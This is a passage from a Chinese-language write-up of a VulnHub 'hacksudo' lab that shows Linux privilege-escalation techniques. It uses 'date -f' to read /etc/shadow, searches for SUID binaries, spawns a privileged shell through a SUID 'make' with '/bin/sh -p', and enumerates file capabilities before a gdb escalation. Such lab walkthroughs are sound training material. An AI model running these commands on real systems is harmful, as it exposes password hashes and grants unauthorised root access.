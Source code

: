 用法与具有`sudo`权限是一样的

```shell
date -f "/etc/shadow"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\38.jpg)

## make提取

使用`find`寻找具有SUID权限文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\39.jpg)

查看文件类型为可执行文件，并且测试，大概率为`make`命令

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\40.jpg)

用法

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\41.jpg)

```shell
COMMAND='/bin/sh -p'
./make -s --eval=$'x:\n\t-'"$COMMAND"
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\42.jpg)





# 脚本语言Capabilities 提权

## gdb语言

使用`find`命令寻找对于其他用户也是可以执行`gdb`的文件

```shell
find / -type f -executable 2>/dev/null | xargs /usr/sbin/getcap -r 2>/dev/null
```

查看用法，可以看到是查看是否具有`ep`权限的，可以使用`getcap`查看，这里`getcap`环境变量问题，可以先找到其位置，`xargs`就是把前面的输出作为`getcap`的目标

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\44-1.jpg)





![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\43.jpg)
